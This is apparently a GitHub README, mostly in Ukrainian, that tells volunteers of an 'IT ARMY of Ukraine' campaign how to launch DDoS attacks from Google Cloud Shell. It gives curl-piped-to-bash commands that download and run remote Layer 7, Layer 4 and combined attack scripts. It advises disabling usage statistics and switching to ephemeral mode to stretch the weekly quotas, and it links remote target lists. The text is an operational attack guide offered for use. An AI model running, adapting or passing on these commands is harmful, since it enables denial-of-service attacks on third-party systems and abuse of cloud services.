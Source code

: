 ## DDoS whith Google Cloud Shell 
### MHDDoS_proxy
# 
Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

## Команди для запуску атаки
по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash
```
Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal в налаштуваннях вимикаємо статистику використання.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000

#
Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4


#
#
IT ARMY of Ukraine

